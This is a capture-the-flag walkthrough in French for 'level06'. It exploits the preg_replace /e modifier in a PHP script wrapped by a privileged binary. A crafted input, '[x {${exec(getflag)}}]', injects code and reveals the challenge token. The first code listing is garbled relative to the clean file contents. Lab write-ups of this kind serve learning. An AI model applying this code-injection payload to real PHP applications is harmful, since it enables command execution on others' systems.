 # Level06

On observe deux fichiers a la racine: un exécutable <code>level06</code> et un fichier PHP <code>level06.php</code>

```bash
$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4

$ ./level06 level06.php
...
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\ x /", " x ", $m); $m = preg_replace("/ y/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\(x ( x *)\))/e", "y(\"\\2\")", $a); $a = preg_replace("/\(/", "(", $a); $a = preg_replace("/\)/", ")", $a); return $a; }
$r = x($argv(1), $argv(2)); print $r;
?>
...
```

```bash
$ cat level06.php
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}

function x($y, $z) {
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}

$r = x($argv[1], $argv[2]);
print $r;
?>
```

En ouvrant le fichier PHP, on observe beaucoup de <code>preg_replace</code> et particulierement:

```php
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

qui utilise le modifier <code>/e</code> qui permet de lancer des fonctions depuis le preg_replace

On peut donc commencer l'injection

```bash
$ echo '[x {${exec(getflag)}}]' > /tmp/inject

$ ./level06 /tmp/inject
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1

```

`https://www.hashbangcode.com/article/using-e-modifier-php-pregreplace`
